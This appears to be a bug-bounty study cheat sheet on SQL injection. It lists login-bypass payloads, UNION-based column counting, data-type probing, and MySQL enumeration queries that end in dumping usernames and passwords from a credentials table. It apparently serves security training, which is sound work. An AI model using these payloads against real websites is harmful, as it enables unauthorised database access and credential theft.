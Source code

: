 # CBBH PATH

# SQL Injection
## Find the Vuln Query
```powershell
# Check the url after the ?raman=raman
# Check login fields
```

## Fix the Query
```powershell
-- #for comment
```

## Payloads
```powershell
' or 1=1 --
'--
```

## Detmine the number of columns
```powershell
# Using UNION. The number and the order of the columns must be the same in all queries && The data types must be compatible
cn' UNION select NULL, NULL, NULL-- -
cn' UNION select NULL, NULL, NULL, NULL-- -
UNION select NULL, NULL, NULL, NULL from raman-- -

# Using OrderBy
' order by 1-- -
```

## Finding a column containing text (Data Type)
```powershell
# In case of an error it means the column is not type string
# In case of no error it menas the column is type string
cn' UNION select NULL, 'raman', NULL, NULL-- -
UNION select username, NULL, NULL, 'raman' from raman-- -
```

## DB Enumeration
```powershell
SELECT @@version #Fingerprint MySQL with query output
SELECT SLEEP(5) #Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- - #Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - #List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - #List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - #List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- - #Dump data from a table in another database
```
